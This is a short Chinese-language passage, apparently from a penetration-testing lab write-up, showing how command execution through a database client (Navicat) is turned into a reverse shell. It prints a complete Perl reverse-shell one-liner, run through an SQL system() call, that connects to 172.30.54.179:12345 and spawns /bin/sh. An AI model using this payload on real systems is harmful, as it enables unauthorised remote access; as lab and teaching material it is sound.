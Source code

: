 所以我们这里调用相关命令

[![](assets/1706771111-17e2a47ce788f432b1078004dc725e32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129174209-abe44d98-be8a-1.png)

接下来借助命令执行实现反弹 shell

### 反弹 Shell

这里反弹到我们的域用户二上，因为他和域用户三是在同一网段下的，我们先监听下它的某个端口。

然后在 Navicat 上执行指令如下

```bash
select system('perl -e \'use Socket;$i="172.30.54.179";$p=12345;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'');
```

[![](assets/1706771111-1fff52b74c0e34a75aed1dea5a116042.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129174217-b0a91c5a-be8a-1.png)
